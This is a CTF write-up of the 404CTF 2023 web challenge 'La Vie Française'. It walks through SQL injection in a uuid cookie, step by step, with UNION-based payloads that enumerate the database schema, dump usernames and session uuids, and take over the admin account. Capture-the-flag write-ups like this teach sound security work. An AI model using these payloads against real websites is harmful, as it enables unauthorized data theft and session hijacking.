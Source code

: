 ```yaml
---
layout: writeup
category: 404CTF2023
chall_description: https://ctf.404ctf.fr/challenges#La%20Vie%20Fran%C3%A7aise-113
points: 956
solves: 81
tags: Web SQLi
date: 2023-06-06
comments: false
---
```


## ## Challenge Description

![Photo](../../../assets/CTFs/404CTF2023/annonce_laviefrancais.png "Annonce")

We have access to a website La Vie Francais (which was hinted that there exists a SQL server, since the admin banned sqlmap)

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais1.png "Home page")

From the description and context of the challenge, it seems like we need to login as Madame Forestier to get the flag.



## ## Solution

In the beginning, I thought that we have to bypass the login form but it has a filter that reject all but the alphanumeric character with this error message: " Seuls les caractères alphanumériques sont autorisés "

However it was a rabbit hole!

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais2.png "Login")

The real trick here is after we login: /account endpoint with the cookie uuid

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais3.png "Account")

When we change the uuid to **` ' OR 1=1#'** the page no longer shows our name but jacquesrival instead.

![Photo](../../../assets/CTFs/404CTF2023/laviefrancais_jaques.png "SQL Test")

This confirmed that this section is vulnerable to SQLi. Now let's exploit it.

First thing first we need to find out the number of columns of the return table before using the UNION attack with the payload **`' UNION SELECT 1,2,3#'**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploit1.png "SQL Test")

As we can see above, the field 1 is for the username, field 2 is some kind of message for the type user or admin maybe? and the 3 is perhap the uuid.

With this payload **`' UNION SELECT 1,database(),2'`** I found the database name **` usersdb`**

Then with **`' UNION SELECT table_name,2,3 from information_schema.tables where table_schema='usersdb'#`** I found the table **`users**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploitusers.png "SQL Test")

For the columns name we use **`' UNION SELECT group_concat(column_name),2,3 from information_schema.columns where table_name='users'#**

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisexploitcolumns.png "SQL columns names")

Now all we need to do to leak the uuid of the owner and impersonate Madame Forestier!

**`' UNION SELECT group_concat(username,':',uuid SEPARATOR '#####'),2,3 from users#** leads us to the uuid of Madame Forestier madeleineforestier:8650580d3fe9431f8281b2212e9ff0de.

Change our uuid in cookie with Chrome Dev Tools (or modify it with Burp) and we can see the admin page.

![Photo](../../../assets/CTFs/404CTF2023/laviefrancaisfinal.png "GG")
